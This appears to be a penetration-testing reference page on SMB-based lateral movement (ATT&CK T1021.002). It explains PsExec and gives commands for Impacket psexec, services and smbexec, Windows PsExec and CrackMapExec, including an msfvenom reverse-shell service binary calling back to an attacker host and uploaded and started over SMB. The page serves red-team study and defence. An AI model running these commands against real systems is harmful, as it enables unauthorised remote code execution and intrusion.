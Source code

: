 ```yaml
---
description: 'MITRE ATT&CK™ Remote Services: SMB/Windows Admin Shares - Technique T1021.002'
---
```


# SMB-based

## Theory

[SMB Protocol](../delivery/protocols/smb.md) can be abuse by attackers to execute remote code and perform lateral movements.

## Practice

### PsExec

Psexec is one of many Sysinternals Tools and can be downloaded [here](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec), It connect to the $ADMIN shares with SMB and upload a service binary. Psexec uses psexesvc.exe as the name. Then it connect to the service control manager to create and run a service named PSEXESVC associated with the previous binary. Finally Psexec create some named pipes to handle stdin/stdout/stderr.

{% tabs %}
{% tab title="UNIX-like" %}
The [Impacket](https://github.com/SecureAuthCorp/impacket) script [psexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py) can execute a remote process.

```bash
psexec.py username:password@10.10.10.10 cmd.exe
```

We may manually replicate techniques use by PsExec with [service.py](https://github.com/fortra/impacket/blob/master/examples/services.py) from impacket

```bash
# Create an exe as a service
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ATTACKING_IP> LPORT=<PORT> -f exe-service --platform windows -e x64/xor_dynamic  -o shell.exe

# Upload the exe to windows machine
smbclient '\\<TARGET>\smbshare' -U <user> -c "put shell.exe test.exe"

# Using impacket services.py create service remotely
services.py WORKGROUP/<user>@<TARGET> create -name shell-svc -display my-shell-svc -path "\\\\<TARGET>\\smbshare\\shell.exe"

# Using impacket services.py start the service and get the shell
services.py WORKGROUP/<user>@<TARGET> start -name shell-svc
```
{% endtab %}

{% tab title="Windows" %}
On windows, we can use [PsExec](https://learn.microsoft.com/en-us/sysinternals/downloads/psexec) from Windows Sysinternals tools

```powershell
#Run PsExec
psexec64.exe \\MACHINE_IP -u Administrator -p Mypass123 -i cmd.exe
```
{% endtab %}
{% endtabs %}

### SmbExec

SmbExec is an [Impacket](https://github.com/fortra/impacket) script that works similarly to PsExec without using RemComSvc. The main difference is that smbexec avoids transferring a potentially detectable binary to the target site. Instead, it lives completely off the land by running the local Windows command shell. \
implementation goes one step further, instantiating a local smbserver to receive the output of the commands. This is useful in the situation where the target machine **does NOT have a writeable share** available.

{% tabs %}
{% tab title="UNIX-like" %}
The [Impacket](https://github.com/SecureAuthCorp/impacket) script [psexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py) can execute a remote process.

```bash
#Semi-interactive shell (doesn't need writable share on the target)
smbexec.py <domain>/<username>:<password>@<host>
```
{% endtab %}
{% endtabs %}

### CrackMapExec

You can utilize [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) as a powerful alternative to SMBexec or PsExec for executing code over SMB connections. You can specify the execution methode and the shell interpretor (cmd or powershell.

{% tabs %}
{% tab title="UNIX-like" %}
[CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) can execute a remote process.

```bash
#Execute cmd command through smbexec method (methods: mmcexec,atexec,smbexec,wmiexec)
crackmapexec smb <TARGET> -u <USER> -p <PASSWORD> --exec-method smbexec -x whoami

#Execute powershell command through atexec method (methods: mmcexec,atexec,smbexec,wmiexec)
crackmapexec smb <TARGET> -u <USER> -p <PASSWORD> --exec-method atexec -X whoami

#Execute powershell (32bits) command through default wmiexec method (methods: mmcexec,atexec,smbexec,wmiexec)
crackmapexec smb <TARGET> -u <USER> -p <PASSWORD> --force-ps32 -X whoami
```
{% endtab %}
{% endtabs %}
